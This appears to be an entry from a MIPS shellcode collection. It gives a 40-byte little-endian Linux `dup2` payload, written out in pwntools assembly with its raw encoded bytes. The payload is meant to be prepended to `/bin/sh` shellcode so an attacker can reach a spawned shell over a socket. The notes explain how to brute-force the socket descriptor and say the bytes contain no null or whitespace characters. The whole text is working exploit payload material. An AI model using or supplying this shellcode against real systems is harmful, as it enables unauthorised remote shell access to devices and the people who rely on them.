 ### `dup2` - 40 bytes
* Command - `dup2()`
* Length - 40
* Notes
    * This shellcode is meant to be **prepended** to one of the above `/bin/sh` shellcode payloads, and allows you to communicate with the shell over a socket.
    * The file descriptor for the socket must be known beforehand, or it can be brute-forced
    * No null bytes
    * No whitespace (except for a few fd values that will give whitespace)

```python
from pwn import *
context.update(arch='mips', os='linux', bits=32, endian='little')
fd = 7
shellcode = asm(f'''
li $v0, 4063                # \xdf\x0f\x02\x24
slti $a0, $zero, -1         # \xff\xff\x04\x28
li $t6, -257                # \xff\xfe\x0e\x24
addi $a0, $t6, {0x101 + fd} # \x08\x01\xc4\x21
slti $a1, $zero, -1         # \xff\xff\x05\x28
syscall 0x040405            # \x4c\x01\x01\x01
addi $a1, $t6, 0x102        # \x02\x01\xc5\x21
syscall 0x040405            # \x4c\x01\x01\x01
addi $a1, $t6, 0x103        # \x03\x01\xc5\x21
syscall 0x040405            # \x4c\x01\x01\x01
''')

# Shellcode - b'\xdf\x0f\x02$\xff\xff\x04(\xff\xfe\x0e$\x08\x01\xc4!\xff\xff\x05(L\x01\x01\x01\x02\x01\xc5!L\x01\x01\x01\x03\x01\xc5!L\x01\x01\x01'
```